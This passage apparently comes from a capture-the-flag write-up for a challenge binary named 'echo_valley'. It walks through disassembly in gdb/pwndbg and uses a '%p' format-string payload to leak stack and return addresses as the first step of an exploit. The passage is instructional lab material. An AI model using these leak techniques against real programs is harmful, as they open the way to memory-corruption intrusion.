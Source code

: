 ```
   0x00005555555553c1 <+186>:	lea    rax,[rip+0xcf9]        # 0x5555555560c1
   0x00005555555553c8 <+193>:	mov    rdi,rax
   0x00005555555553cb <+196>:	mov    eax,0x0
   0x00005555555553d0 <+201>:	call   0x555555555110 <printf@plt>
   0x00005555555553d5 <+206>:	lea    rax,[rbp-0x70]
   0x00005555555553d9 <+210>:	mov    rdi,rax
   0x00005555555553dc <+213>:	mov    eax,0x0
   0x00005555555553e1 <+218>:	call   0x555555555110 <printf@plt>
   0x00005555555553e6 <+223>:	mov    rax,QWORD PTR [rip+0x2c23]        # 0x555555558010 <stdout@GLIBC_2.2.5>
   0x00005555555553ed <+230>:	mov    rdi,rax
   0x00005555555553f0 <+233>:	call   0x555555555140 <fflush@plt>
   0x00005555555553f5 <+238>:	jmp    0x555555555331 <echo_valley+42>
   0x00005555555553fa <+243>:	call   0x555555555100 <__stack_chk_fail@plt>
   0x00005555555553ff <+248>:	leave
   0x0000555555555400 <+249>:	ret
```

We'll put a break point at 0x00005555555553e1 using `break *0x00005555555553e1` so we can inspect the stack as we print out the format string vulnerability.

First, we can leak some addresses by printing a bunch of `%p`. Printing the first 20 doesn't seem useful, but when I print the 20-30th pointers, I get some interesting results:
```
%20$p %21$p %22$p %23$p %24$p %25$p %26$p %27$p %28$p %29$p 
You heard in the distance: 0x7fffffffde50 0x555555555413 0x7fffffffdef0 0x7ffff7dc7488 0x7fffffffdea0 0x7fffffffdf78 0x155554040 0x555555555401 0x7fffffffdf78 0x3b1973a1a71acfea
```

In the 21st pointer (`%21$p)`), we get `0x555555555413`, which is the exact return address of our main function!
```
Dump of assembler code for function main:
   0x0000555555555401 <+0>:	endbr64
   0x0000555555555405 <+4>:	push   rbp
   0x0000555555555406 <+5>:	mov    rbp,rsp
   0x0000555555555409 <+8>:	mov    eax,0x0
   0x000055555555540e <+13>:	call   0x555555555307 <echo_valley>
   0x0000555555555413 <+18>:	mov    eax,0x0
   0x0000555555555418 <+23>:	pop    rbp
   0x0000555555555419 <+24>:	ret
```
Not that it is 0x0000555555555413 because the return address points to the instruction that should be run *after* the function call is done.

pwndbg also gives us some interesting information about the registers, specifically RBP (the base pointer)
```
RBP  0x7fffffffde40 —▸ 0x7fffffffde50 —▸ 0x7fffffffdef0 —▸ 0x7fffffffdf50 ◂— 0
```

Our 20th pointer seems to match one of the base pointers, which makes sense since the RBP is saved when a function is called!
